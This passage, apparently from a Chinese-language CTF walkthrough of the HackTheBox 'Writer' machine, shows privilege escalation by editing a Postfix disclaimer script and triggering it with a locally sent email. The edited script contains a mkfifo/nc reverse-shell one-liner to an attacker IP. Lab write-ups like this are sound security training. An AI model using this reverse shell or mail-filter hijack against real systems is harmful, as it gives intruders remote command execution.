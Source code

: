 使用 netstat 检查进程

回头看免责声明文件，我看到时间戳正在改变:

```
kyle@writer:/etc/postfix$ ls -l disclaimer
-rwxrwxr-x 1 root filter  1021 Oct 14 22:04 disclaimer

kyle@writer:/etc/postfix$ ls -l
-rwxrwxr-x 1 root filter  1101 Oct 14 22:08 disclaimer
```

我试着编辑免责声明文件，并在其中添加了一条注释，这条注释在时间戳更新时被删除了。因此，这证实了我们有一个有限的窗口来更改免责声明文件并发送电子邮件来触发它的运行。

还有一个文件显示了将对其运行免责声明脚本的地址:

```
kyle@writer:/etc/postfix$ cat disclaimer_addresses
root@writer.htb
kyle@writer.htb
```

[这篇](https://baturorkun.medium.com/disclaimer-to-outgoing-emails-2ce576a6433b)文章证实了免责声明脚本已经被更改为使用 addresses 文件，所以我们知道我们需要向/从其中一个地址发送电子邮件来触发它。

我们需要一种在机器上发送本地电子邮件的方法，快速搜索发现了我们可以使用的 RealPython 上的这个发送邮件脚本。

我们可以删减很多，使之更简单，创建一个空白文件:

```
kyle@writer:~$ nano /dev/shm/sendmail.py
```

将我们的 Python 版本粘贴到其中并保存:

```
import smtplib

try:
    server = smtplib.SMTP('localhost')
    server.sendmail('kyle@writer.htb', 'john@writer.htb', 'Shell Time!')
    print("Mail sent")
except error: 
    print("Mail failed to send")
finally:
    server.quit()
```

现在将免责声明文件复制到/dev/shm 并进行编辑，这样我们在开始时就有了反向 shell:

```
#!/bin/sh
# Localize these.

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.39 4444 >/tmp/f

INSPECT_DIR=/var/spool/filter
SENDMAIL=/usr/sbin/sendmail

# Get disclaimer addresses
DISCLAIMER_ADDRESSES=/etc/postfix/disclaimer_addresses
<SNIP>
```

